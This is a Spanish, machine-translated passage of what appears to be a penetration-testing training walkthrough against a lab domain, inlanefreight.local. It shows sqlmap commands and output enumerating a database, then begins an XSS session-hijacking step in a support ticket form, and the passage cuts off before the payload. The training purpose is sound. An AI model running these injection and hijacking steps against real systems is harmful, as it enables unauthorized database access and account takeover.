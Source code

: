 ```shell-session
[*] status
[*] sys

[00:09:24] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/status.inlanefreight.local'

[*] ending @ 00:09:24 /2022-06-21/
```

Centrándose en el`status`base de datos, encontramos que tiene solo dos tablas:

  Enumeración y explotación web

```shell-session
xnoxos@htb[/htb]$ sqlmap -r sqli.txt --dbms=mysql -D status --tables

<SNIP>

---
[00:10:29] [INFO] testing MySQL
[00:10:29] [INFO] confirming MySQL
[00:10:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 8.0.0
[00:10:29] [INFO] fetching tables for database: 'status'
Database: status
[2 tables]
+---------+
| company |
| users   |
+---------+
```

Desde aquí, podríamos intentar descargar todos los datos del`status`base de datos y registrar otro hallazgo más,`SQL Injection`. Prueba esto manualmente usando el[Fundamentos de inyección SQL](https://academy.hackthebox.com/module/details/33)módulo como guía y consulte el[SQLMAP Essentials](https://academy.hackthebox.com/module/details/58)Módulo Si necesita ayuda con el enfoque basado en herramientas.

---

## Support.inlaneFreight.local

Continuando, navegamos por el`http://support.inlanefreight.local`Sitio y vea que es un portal de soporte de TI. Los portales de boletos de soporte pueden permitirnos involucrarnos con un usuario en vivo y, a veces, puede llevar a un ataque del lado del cliente donde podemos secuestrar una sesión de usuario a través de un`Cross-Site Scripting (XSS)`vulnerabilidad. Navegando alrededor de la aplicación, encontramos el`/ticket.php`Página donde podemos recaudar un boleto de soporte. Veamos si podemos activar algún tipo de interacción del usuario. Complete todos los detalles de un boleto e incluya lo siguiente en el`Message`campo:

Código:javascript
